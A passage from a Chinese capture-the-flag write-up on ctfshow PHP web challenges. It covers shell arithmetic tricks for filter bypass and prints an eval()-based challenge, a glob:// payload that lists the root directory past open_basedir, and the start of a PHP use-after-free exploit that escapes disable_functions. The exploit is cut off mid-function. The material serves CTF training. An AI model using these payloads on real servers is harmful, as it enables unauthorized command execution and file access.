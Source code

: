`$(())=0`

`~$(())=~0`

`$((~$(())))=-1`

`然后拼接出-36在进行取反`

注意的是：`${_}会输出上一次的执行结果`

#### 绕过opendir()

https://www.cnblogs.com/LLeaves/p/13210005.html





#### web72 glob:// 和 uaf脚本

```php
<?php
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);
}else{
    highlight_file(__FILE__);
}
```

这道题有严格的disable_function限制和open_basedir限制。

先利用glob://伪协议绕过open_basedir,找到`/`下的所有文件

```php
c=?><?php
$a=new DirectoryIterator("glob:///*");
foreach($a as $f)
{echo($f->__toString().' ');
} exit(0);?>
```

发现flag0.txt

接着用uaf脚本去突破disable_functions的限制执行命令

> 如果有基本函数被过滤，可以考虑手写一个不重名的基本脚本

```php
c=function ctfshow($cmd) {
    global $abc, $helper, $backtrace;

    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace();
            if(!isset($backtrace[1]['args'])) {
                $backtrace = debug_backtrace();
            }
        }
    }

    class Helper {
        public $a, $b, $c, $d;
    }

    function str2ptr(&$str, $p = 0, $s = 8) {
```